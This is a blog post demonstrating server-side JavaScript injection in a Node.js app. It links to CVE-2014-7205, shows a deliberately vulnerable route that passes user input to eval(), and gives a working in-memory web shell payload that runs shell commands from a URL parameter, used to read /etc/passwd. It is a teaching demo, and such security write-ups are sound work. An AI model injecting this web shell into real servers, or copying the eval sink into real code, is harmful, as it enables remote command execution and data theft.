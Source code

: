 ```yaml
---
layout: post
title:  "SSJS Web Shell Injection"
date:   2015-01-31 12:02:03
categories: node
---
```


I've recently become interested in real world examples of vulnerabilities in Node.js applications, which allow `Server Side Javascript Injection`. One advisory I came across was <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7205">CVE-2014-7205</a> discovered by Jarda Kotěšovec in a <a href="https://github.com/hapijs/bassmaster/commit/b751602d8cb7194ee62a61e085069679525138c4">Basmaster plugin</a> which allows arbitrary Javascript injection.

I decided to mock up a simple example of user input passed to an eval() execution sink, to demonstrate an injection of a simple web shell into the server. This web shell will only exist within the current node.js process, and will not be written to disk.

This demo application will only allow a single user input selection to keep things simple:
![Demo app](/assets/SSJS_ws1.png)

Vulnerable code (user input passed to an eval execution sink):
{% highlight javascript %}
router.post('/demo1', function(req, res) {
  var year = eval("year = (" + req.body.year + ")");
  var date = new Date();

  var futureAge = 2050 - year;

  res.render('demo1',
    {
      title: 'Future Age',
      output: futureAge
    });
});
{% endhighlight %}

In this example res.write('SSJS Injection') is injected, and the server will return that string in the page response:
![Demo app](/assets/SSJS_ws2.png)

So we can perform arbitrary SSJS injection on this location. What about injecting a web shell that will start up after 5 seconds, listening on TCP/8000?
{% highlight javascript %}
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        });
    }).listen(8000);
}, 5000)
{% endhighlight %}

One line web shell:
{% highlight javascript %}
setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)
{% endhighlight %}

Because we are inserting code which will be eval'd by the application, the web shell will not be written to disk, and execution will be performed from the existing node process. 

Injection of the web shell (application continues to respond normally):
![Demo app](/assets/SSJS_ws3.png)

Execution of `cat /etc/passwd` using the web shell:
![Demo app](/assets/SSJS_ws4.png)

Execution of `ls -la /etc`:
![Demo app](/assets/SSJS_ws5.png)

This is a really simple example of an application with a SSJS injection vulnerability. Another thing to note is that tools to identify web application vulnerabilities may not have support to detect this vulnerability. At the time of this writing, Burp Suite v1.6.10 did not identify a SSJS injection vulnerability in the demo application.

- `s1gnalCha0s`